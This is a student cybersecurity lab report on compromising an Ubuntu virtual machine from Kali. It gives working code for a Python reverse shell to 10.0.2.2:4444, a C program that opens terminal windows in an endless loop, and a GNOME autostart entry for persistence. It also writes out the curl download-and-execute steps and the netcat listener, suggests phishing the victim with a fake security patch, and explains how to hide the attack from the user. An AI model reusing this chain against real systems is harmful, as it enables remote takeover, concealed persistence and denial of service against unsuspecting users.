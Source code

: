 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a web file server was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used netcat, with the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/kali-ubuntu-rs.png)

# DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created: the `dos.desktop` file is moved to `.config/autostart`, to do this the `mv` command is used, which must, however, be executed with administrator privileges, therefore using `sudo`, this implies that the attacker must know the account password. Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.

![Startup Application Preferences](images/application-startup.png)

So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

## References
1. [Payload for creating the reverse shell](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
2. [For the creation of the web file server, inspiration was taken from](https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88)
3. [For usage of netcat, to make the attacker listen on a predefined port](https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/)



